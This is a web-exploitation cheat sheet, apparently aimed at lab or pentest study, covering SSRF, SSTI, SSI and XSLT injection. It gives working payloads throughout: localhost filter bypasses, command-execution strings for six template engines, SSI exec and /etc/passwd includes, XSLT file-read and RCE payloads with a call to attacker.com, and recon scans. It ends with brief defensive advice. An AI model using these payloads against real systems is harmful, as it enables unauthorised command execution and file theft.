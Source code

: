 ## 1. Server-Side Request Forgery (SSRF)

### Exploitation:

- **Internal port scanning**: Attempting to access internal services and ports on the server's localhost.
    
- **Accessing restricted endpoints**: Bypassing access controls to reach sensitive internal resources.
    

### Common Protocols for SSRF:

- `http://127.0.0.1/file:///etc/passwd` → Access local files.
    
- `gopher://dateserver.htb:80/...` → Use the gopher protocol to send arbitrary requests.
    
- `dict://127.0.0.1:11211/info` → Query dictionary services.
    
- `ftp://127.0.0.1:21` → Access FTP servers.
    
- `file://` → Access local files.
    
- `php://` → PHP stream wrappers (highly dangerous).
    
- `data://` → Data encoding.
    
- `https://` → Accessing internal HTTPS servers.
    

### Advanced SSRF Bypass Techniques:

- **URL Encoding**: `http://127.0.0.1%3A80`
    
- **Double Encoding**: `http://127.0.0.1%253A80`
    
- **Alternative IP Representations**:
    
    - **Octal**: `http://0177.0.0.1`
        
    - **Hexadecimal**: `http://0x7F.0x00.0x00.0x01`
        
    - **IPv6 Abuse**: `http://[::1]:80`
        
- **DNS Rebinding**: Change IP resolutions dynamically.
    
- **Varying Ports**: Bypass filters using different ports.
    

## 2. Server-Side Template Injection (SSTI)

### Identifying SSTI:

- **Test String**: `{{<%[%'"}}\.` → Identify templating engine.
    

### Exploiting SSTI by Templating Engine:

#### Jinja2 (Python)

```jinja
{{config.items()[4][1].__class__.__init__.__globals__['os'].popen('id').read()}}
```

#### Twig (PHP)

```twig
{{system('id')}}
```

#### Freemarker (Java)

```java
${new java.lang.ProcessBuilder("id").start()}
```

#### Velocity (Java)

```velocity
#set($e="e")#set($x=$e.class.forName("java.lang.Runtime").getRuntime().exec("id"))$x
```

#### Smarty (PHP)

```smarty
{${system('id')}}
```

#### Handlebars (JavaScript)

```handlebars
{{this.constructor.constructor('return process.mainModule.require("child_process").execSync("id").toString()')()}}
```

### Blind SSTI:

- **Timing-based detection**:
    
    ```jinja
    {{ ''.__class__.__mro__[1].__subclasses__() }}
    ```
    
- **Out-of-Band SSTI Detection** (e.g., Burp Collaborator, interacting with external DNS services)
    

## 3. Server-Side Includes (SSI) Injection

### SSI Directives:

- Print environment variables: `<!--#echo var="HTTP_USER_AGENT" -->`
    
- Execute commands: `<!--#exec cmd="id" -->`
    
- Include files: `<!--#include file="/etc/passwd" -->`
    
- Modify error messages: `<!--#config errmsg="Hacked!" -->`
    

## 4. XSLT Injection

### Common XSLT Elements:

- `<xsl:template>` → Defines an XSL template.
    
- `<xsl:value-of>` → Extracts XML values.
    
- `<xsl:for-each>` → Loops through XML nodes.
    
- `<xsl:if>` → Tests conditions.
    

### XSLT Injection Payloads:

#### Information Disclosure:

```xml
<xsl:value-of select="system-property('xsl:version')" />
```

#### Local File Inclusion (LFI):

```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

#### Remote Code Execution (RCE):

```xml
<xsl:value-of select="php:function('system','id')" />
```

### Advanced XSLT Exploits:

- **XXE via XSLT**: Using `document('http://attacker.com/payload.xml')` to retrieve malicious data.
    
- **Network SSRF via XSLT**: Fetching internal/external resources.
    

## 5. Fuzzing & Reconnaissance Tools

### Fuzzing with wfuzz:

```bash
wfuzz -c -z file,wordlist.txt http://target.com/FUZZ
```

### Port Scanning:

```bash
nmap -p 1-65535 target.com
```

### Web Server Scanning:

```bash
nikto -h target.com
```

### Directory Bruteforce:

```bash
gobuster dir -u target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

## 6. Defensive Measures

- **Input Validation**: Whitelist allowed values.
    
- **Output Encoding**: Prevent reflected output attacks.
    
- **Sandboxing & Isolation**: Reduce attack surface.
    
- **Web Application Firewalls (WAFs)**: Filter malicious traffic.
    
- **Least Privilege Principles**: Restrict server permissions.
    
- **Content Security Policy (CSP)**: Prevent SSRF & SSTI exploitation.
    
- **Error Handling Best Practices**:
    
    - Suppress detailed error messages.
        
    - Log errors securely without exposing them to users.
        

## 7. API Security Considerations

- **Prevent SSRF via Metadata Endpoints** (e.g., cloud environments like AWS/GCP metadata service).
    
- **Restrict Templating Engine Usage** to avoid unnecessary exposure.
    
- **Proper Authentication & Authorization** checks for sensitive actions.
    

## 8. Modern Web Architecture & Vulnerabilities

- **Microservices & Serverless Architectures**:
    
    - API Gateway-level validation.
        
    - Function-level permissions to minimize attack impact.
        
- **Container Security**:
    
    - Limit exposed ports.
        
    - Implement network segmentation.
        

---
